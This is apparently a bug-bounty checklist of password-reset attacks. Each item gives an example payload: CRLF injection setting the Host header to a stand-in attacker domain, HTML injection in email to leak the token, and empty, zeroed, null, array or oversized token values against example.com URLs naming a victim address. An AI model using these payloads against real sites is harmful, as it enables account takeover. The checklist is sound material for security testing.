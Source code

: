     - [ ] CRLF in URL
    
    ```
    with CLRF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
    ```
    
    - [ ] HTML injection in Email
    
    ```
    HTML injection in email via parameters, cookie, etc > inject image > leak the  token
    ```
    
    - [ ] Remove token
    
    ```
    <http://example.com/reset?eamil=victims@gmail.com&token=>
    ```
    
    - [ ] Change it to 0000
    
    ```
    <http://example.com/reset?eamil=victims@gmail.com&token=0000000000>
    ```
    
    - [ ] Use Null Value
    
    ```
    <http://example.com/reset?eamil=victims@gmail.com&token=Null/nil>
    ```
    
    - [ ] try an array of old tokens
    
    ```
    <http://example.com/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]>
    ```
    
    - [ ] SQLi bypass
    
    ```
    try sqli bypass and wildcard or, %, *
    ```
    
    - [ ] Request Method / Content Type
    
    ```
    change request method (get, put, post etc) and/or content type (xml<>json)
    ```
    
    - [ ] Response Manipulation
    
    ```
    Replace bad response and replace with good one
    ```
    
    - [ ] Massive Token
    
    ```
    <http://example.com/reset?eamil=victims@gmail.com&token=1000000> long string
    ```
    
